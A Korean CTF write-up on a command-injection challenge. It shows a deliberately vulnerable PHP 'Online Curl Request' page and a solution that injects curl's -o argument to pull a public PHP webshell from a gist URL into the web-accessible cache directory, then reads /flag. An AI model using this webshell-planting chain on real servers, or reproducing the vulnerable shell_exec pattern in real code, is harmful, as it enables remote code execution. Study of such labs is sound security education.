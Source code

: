 ```yaml
---
title: "[2025-07-26] Command Injection advanced"
excerpt: "Command Injection"

categories:
  - Problem
tags:
  - [Command Injection]

permalink: /Problem/[2025-07-26] Command Injection advanced/

toc: true
toc_sticky: true

date: 2025-07-26
last_modified_at: 2025-07-26
---
```


## 🦥 본문

- index.php

```python
<html>
    <head></head>
    <link rel="stylesheet" href="/static/bulma.min.css" />
    <body>
        <div class="container card">
        <div class="card-content">
        <h1 class="title">Online Curl Request</h1>
    <?php
        if(isset($_GET['url'])){
            $url = $_GET['url'];
            if(strpos($url, 'http') !== 0 ){
                die('http only !');
            }else{
                $result = shell_exec('curl '. escapeshellcmd($_GET['url']));
                $cache_file = './cache/'.md5($url);
                file_put_contents($cache_file, $result);
                echo "<p>cache file: <a href='{$cache_file}'>{$cache_file}</a></p>";
                echo '<pre>'. htmlentities($result) .'</pre>';
                return;
            }
        }else{
        ?>
            <form>
                <div class="field">
                    <label class="label">URL</label>
                    <input class="input" type="text" placeholder="url" name="url" required>
                </div>
                <div class="control">
                    <input class="button is-success" type="submit" value="submit">
                </div>
            </form>
        <?php
        }
    ?>
        </div>
        </div>
    </body>
</html>
```

$_GET[’url’]을 통해 url을 받는 데, http로 시작하면 die()를 실행한다. 

escpaeshellcmd를 통해 인젝션을 보호하고 curl 을 통해 셸 명령어를 실행시킨다. 해당 url은 cache 디렉토리 및에 해싱하여 저장한다. 

### 풀이

`-o` 인자를 통해 웹셸 파일을 업로드하여 실행해야 FLAG 파일을 알 수 있다.

1. 웹쉘 코드가 포함된 서버를 만듦
2. 해당 웹쉘 코드를 방문하고 -o 인자를 통해 실행 결과를 저장
3. 해당 파일에 접근하여 flag 를 알아낼 수 있다.

위와 같은 방법은 서버가 있어야 해서 다른 방법 Github raw file 링크를 이용한 방법이 있다.

github raw file 링크는 응답 body에 해당 코드를 보내줘서 해당 코드를 볼 수 있는 파일이다.

1. 웹쉘 코드를 응답 바디로 보내는 gitraw file 링크

```python
https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```

1. 해당 링크에다 아래의 코드를 추가하여 webshell.php 파일을 만든다

```python
-o /var/www/html/cache/webshell.php
```

1. cache/webshell.php에 접속하여 웹쉘 코드에 `/flag` 에 접근하여 flag를 획득한다.